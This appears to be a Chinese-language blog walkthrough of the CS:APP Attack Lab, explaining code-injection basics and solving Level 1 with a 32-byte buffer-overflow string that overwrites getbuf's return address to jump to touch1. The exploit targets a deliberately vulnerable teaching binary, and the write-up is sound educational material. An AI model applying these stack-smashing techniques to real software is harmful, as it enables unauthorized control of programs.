 When you have correctly solved one of the levels, your target program will automatically send a notification to the grading server. For example:
```c
unix> ./hex2raw < ctarget.l2.txt | ./ctarget
Cookie: 0x1a7dd803
Type string:Touch2!: You called touch2(0x1a7dd803)
Valid solution for level 2 with target ctarget
PASSED: Sent exploit string to server to be validated.
NICE JOB!
```
![Figure 1: Summary of attack lab phases](https://img-blog.csdnimg.cn/20181121125359433.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjkwMDQz,size_16,color_FFFFFF,t_70)

#  Part I: Code Injection Attacks
这类题目的程序中，栈的位置在每次运行时都是固定的，所以可以将栈中的数据看做可执行代码。这样的特性使得程序中的漏洞很容易被利用并加以攻击，而我们要做的事情就是利用其中的漏洞让程序执行我们想要执行的代码。

基本步骤是：
* 找到函数返回值所在地址，将我们想要跳转的地址放在这里，有的时候跳转的目标函数需要参数，需要先设置好。
* 之后将我们的攻击代码以两位十六进制数的形式写成字符串，用```HEX2RAW```工具转化成该ASCII码对应的字符（因为有的字符是不可打印字符，难以直接输入）。这个工具的使用方式在附录A中有详细的说明，我习惯用管子的方式，将攻击代码放在```exploit.txt```中，然后命令行中输入：
	```c
	unix> cat exploit.txt | ./hex2raw | ./ctarget
	```

##  Level 1
有一个```test```函数，代码如下：
```c
void test()
{
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
正常情况下调用```getbuf()```之后会运行```printf```输出语句，但是要求你在不自己写新的代码的情况下，不让它运行这一行代码，而是跳转到```touch1()```函数。当然不用担心程序在这之后会不会出问题，因为```touch1()```运行之后会正确终止程序，代码如下：
```c
void touch1()
{
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}
```
可以看出这个函数并不需要参数，所以我们只需要把```getbuf()```存放返回值的内存数据修改为```touch1()```的地址即可，看一看汇编：
```c
0000000000401701 <getbuf>:
  401701:	48 83 ec 18          	sub    $0x18,%rsp
  401705:	48 89 e7             	mov    %rsp,%rdi
  401708:	e8 44 02 00 00       	callq  401951 <Gets>
  40170d:	b8 01 00 00 00       	mov    $0x1,%eax
  401712:	48 83 c4 18          	add    $0x18,%rsp
  401716:	c3                   	retq
0000000000401717 <touch1>:
  ···
```
显然合法数组大小为24，25-32为返回地址，改为```1717400000000000```即可（注意小端法）
```exploit.txt```中输入以下代码，前三行无意义，单纯占位
```c
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
17 17 40 00 00 00 00 00
```